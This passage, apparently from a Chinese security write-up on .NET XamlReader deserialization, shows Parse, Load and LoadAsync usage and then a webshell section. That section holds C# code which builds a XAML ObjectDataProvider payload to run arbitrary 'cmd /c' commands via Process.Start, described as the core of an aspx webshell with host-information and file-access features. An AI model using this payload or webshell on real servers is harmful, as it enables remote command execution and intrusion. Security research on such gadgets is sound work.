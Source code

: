 ```
string xml = File.ReadAllText("../../Dictionary2.xaml");
XamlReader.Parse(xml);

```

上述代码运行后跟踪调用栈，发现调用了多个 Load 方法，注意到调用了 WpfXamlLoader 类的 Load 方法，发现是一个内部实现的类，不能直接在外部所用，只能通过 XamlReader.Loader 方法去实现调用

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibesCLZookMlDIfegHtZA8bDCWtcvqdA71wNoQZpq543zgiasgacbB1qGTZVn2I2b1zaBhlkRGEDIg/640?wx_fmt=png)

XamlReader.LoadAsync
--------------------

XamlReader 类提供了 3 种 Load 重载，另外还提供了 LoadAsync 异步方法，用于在大文件数据传输不影响程序主线程，可直接载入流转换为对象

```
//Test:Load
string xml = File.ReadAllText("../../Dictionary2.xaml");
MemoryStream ms = new MemoryStream(System.Text.Encoding.Default.GetBytes(xml));
XamlReader.Load(ms);
//Test:LoadAsync
MemoryStream ms0 = new MemoryStream(System.Text.Encoding.Default.GetBytes(xml));
XamlReader xamlReader = new XamlReader();
xamlReader.LoadAsync(ms0);

```

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibesCLZookMlDIfegHtZA8b88jibhKRPaRK9VR0s6hAOS4WBr5oibvgQKicWjDlKPRgC9DhLjLqYUUlg/640?wx_fmt=png)

0x06 WebShell
=============

为了增强程序的可操作性，笔者改用 aspx 页面编写风险检查智能助手，同时设计了主机进程、主机信息采集、主机目录文件访问等功能，内部采用 Base64 编码和解码的解析方式运行，这样的好处在于对 URL 特殊字符串的处置，启动 Process 类调用 cmd.exe/c winver.exe 执行命令，核心代码和页面用户体验界面如下程序

```
public static void CodeInject(string input)
    {
        string ExecCode = EncodeBase64("utf-8", input);
        StringBuilder strXMAL = new StringBuilder("<ResourceDictionary ");
        strXMAL.Append("xmlns=\"http://schemas.microsoft.com/winfx/2006/xaml/presentation\" ");
        strXMAL.Append("xmlns:x=\"http://schemas.microsoft.com/winfx/2006/xaml\" ");
        strXMAL.Append("xmlns:b=\"clr-namespace:System;assembly=mscorlib\" ");
        strXMAL.Append("xmlns:pro =\"clr-namespace:System.Diagnostics;assembly=System\">");
        strXMAL.Append("<ObjectDataProvider x:Key=\"obj\" ObjectType=\"{x:Type pro:Process}\" MethodName=\"Start\">");
        strXMAL.Append("<ObjectDataProvider.MethodParameters>");
        strXMAL.Append("<b:String>cmd</b:String>");
        strXMAL.Append("<b:String>/c "+ DecodeBase64("utf-8",ExecCode) +"</b:String>");
        strXMAL.Append("</ObjectDataProvider.MethodParameters>");
        strXMAL.Append("</ObjectDataProvider>");
        strXMAL.Append("</ResourceDictionary>");
        XamlReader.Parse(strXMAL.ToString());
    }

```
